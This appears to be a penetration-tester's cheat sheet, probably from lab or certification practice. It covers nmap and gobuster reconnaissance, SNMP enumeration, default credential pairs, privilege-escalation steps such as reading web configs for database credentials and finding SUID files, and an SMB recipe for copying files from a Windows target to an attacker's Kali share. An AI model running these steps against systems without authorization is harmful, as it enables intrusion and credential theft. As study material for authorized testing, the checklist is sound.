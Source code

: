 # Philosophy
- first, test the potential vuln (or each step of it) by minimum cost

# Init contact
- nmap -sC -sV -oA \<name\> \<ip\>
- nmap -p- -sV \<ip\> > all-tcp
- nmap -sU \<ip\> > comm-udp
- nmap --script vuln \<ip\>

# http/https 80/443
- gobuster -u http://xxxxx -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
  - remember to recursively scan if needed
- google its software version and find its exploit
- login page => google its default cred
- play around and see whether there is any upload/execute vuln
- check its ssl cert information, it may contain some username or email
- play with PHPSESSID, reuse it, to see what happens

# snmp udp/161
- snmpwalk -c public -v1 <target>
- snmp-check -w -t 30 <target>

# priv esc
- go to /var/www/, read config => get db cred => extract juicy info
- password reuse
- find SUID files => find / -perm -4000 2>/dev/null
- find all files in /home => find /home -type f

# manually test user pass
- admin:admin
- admin:password
- admin:Password1
- guest:guest

# file 
- exitfool xx => find hidden info, like author, email

# File Transfer
- smb share
  - (kali) impacket-smbserver share \<shared path\>
  - (windows) net use z: \\\\<kali's ip\>\share
  - (windows) copy \<file\> z:

